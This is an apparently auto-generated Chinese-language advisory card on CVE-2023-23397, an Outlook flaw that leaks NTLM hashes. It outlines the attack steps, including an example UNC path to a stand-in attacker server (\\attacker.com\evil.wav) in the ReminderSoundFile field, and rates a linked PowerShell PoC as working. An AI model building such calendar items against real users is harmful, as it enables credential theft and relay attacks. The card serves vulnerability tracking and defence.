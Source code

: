 ## CVE-2023-23397-Microsoft Outlook Elevation of Privilege Vulnerability

**漏洞编号:** CVE-2023-23397

**漏洞类型:** 权限提升

**影响应用:** Microsoft Outlook

**危害等级:** 高危，可能导致NTLM Relay攻击并获取用户凭据

**影响版本:** 受影响版本包括Microsoft Outlook 2013 Service Pack 1, Outlook 2016, Office 2019, Office LTSC 2021, Microsoft 365 Apps for Enterprise，具体版本号参考漏洞库信息。

**利用条件:** 攻击者需要能够向受害者发送电子邮件，并且受害者使用存在漏洞的Outlook版本。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2023-23397 是一个 Microsoft Outlook 权限提升漏洞。攻击者可以通过发送特制的日历邀请或任务，其中包含指向攻击者控制的SMB服务器的UNC路径，来触发此漏洞。当Outlook处理此邀请或任务时，它将尝试连接到UNC路径，从而将受害者的NTLM哈希发送到攻击者的服务器。攻击者可以使用此哈希进行NTLM Relay攻击，或尝试破解哈希以获取用户的凭据。

**利用方式：**

1.  攻击者创建一个恶意的日历邀请或任务，在`ReminderSoundFile`字段中包含指向攻击者控制的SMB服务器的UNC路径（例如`\\attacker.com\evil.wav`）。
2.  攻击者将此日历邀请或任务发送给受害者。
3.  受害者使用易受攻击的Outlook版本打开日历邀请或任务。
4.  Outlook尝试播放提醒声音文件，因此会向攻击者的SMB服务器发送NTLM身份验证请求。
5.  攻击者捕获NTLM哈希并进行NTLM Relay攻击或尝试破解。

**有效性：**

提供的PowerShell PoC代码有效。它通过 `Send-CalendarNTLMLeak` 和 `Save-CalendarNTLMLeak` 函数创建包含恶意`ReminderSoundFile`属性的Outlook日历项目，从而触发漏洞。代码支持通过邮件发送日历或保存日历。

**投毒风险：**

PoC代码本身的功能是利用漏洞，但潜在的投毒风险在于：

*   **参数篡改：** 攻击者可能修改`remotefilepath`参数，使其指向其他恶意资源，例如包含恶意软件的SMB共享。
*   **代码执行：** 虽然PoC本身只是创建Outlook日历项目，但如果攻击者能够进一步利用NTLM Relay等方法，可能最终导致在目标系统上执行任意代码。

考虑到PoC的目的是演示漏洞，并且主要功能是利用Outlook的特性来触发NTLM认证，直接的投毒代码可能性较低。不过，由于PoC本身需要运行PowerShell，并且涉及到网络连接，存在一定的风险。如果用户不小心执行了被篡改过的PoC脚本，可能会带来安全风险。因此，评估投毒风险为10%。风险主要来自于使用者对PoC脚本的来源和内容缺乏验证，导致被恶意篡改的脚本利用。

**项目地址:** [cleverg0d/CVE-2023-23397-PoC-PowerShell](https://github.com/cleverg0d/CVE-2023-23397-PoC-PowerShell)

**漏洞详情:** [CVE-2023-23397](https://nvd.nist.gov/vuln/detail/CVE-2023-23397)